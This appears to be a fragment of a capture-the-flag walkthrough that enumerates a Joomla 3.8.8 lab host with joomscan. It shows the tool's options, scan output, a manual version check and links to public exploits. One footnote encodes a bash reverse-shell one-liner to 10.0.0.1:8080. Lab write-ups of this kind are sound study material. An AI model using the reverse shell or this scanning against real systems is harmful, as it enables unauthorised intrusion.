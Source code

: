 ```text
--enumerate-components | -ec    |   Try to enumerate components.

--cookie <String>               |   Set cookie.
--user-agent | -a <User-Agent>  |   Use the specified User-Agent.
--random-agent | -r             |   Use a random User-Agent.
--timeout <Time-Out>            |   Set timeout.
--proxy=PROXY                   |   Use a proxy to connect to the target URL
           Proxy example: --proxy http://127.0.0.1:8080
                                  https://127.0.0.1:443
                                  socks://127.0.0.1:414
                                  
--about                         |   About Author
--help | -h                     |   This help screen.
--version                       |   Output the current version and exit.
```

	joomscan --url

### Run scan, piped to tee because there's no output file option

	joomscan -ec -url 10.129.171.59 | tee joomscan.out

```text
[+] Detecting Joomla Version
[++] Joomla 3.8.8

[+] admin finder
[++] Admin page : http://10.129.171.59/administrator/

[+] Checking Directory Listing
[++] directory has directory listing : 
http://10.129.171.59/administrator/components
http://10.129.171.59/administrator/modules
http://10.129.171.59/administrator/templates
http://10.129.171.59/images/banners
```

### Verify Joomla! version by manual enumeration

	10.129.171.59/administrator/manifests/files/joomla.xml

```html
<copyright>
(C) 2005 - 2018 Open Source Matters. All rights reserved
</copyright>

<version>3.8.8</version>
```


	https://www.google.com/search?q=joomla+changelog+3.8.8

At the time this Walkthrough was published there were no Joomla! 3.8.8 core exploits public. However, the following query today yields public exploits.
- https://www.youtube.com/watch?v=Lqehvpe_djs&list=PLidcsTyj9JXJrgTzRYdwnUhUThb9bL9py&index=8
https://www.google.com/search?q=joomla+core+vulnerabilities [^1] [^2]


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency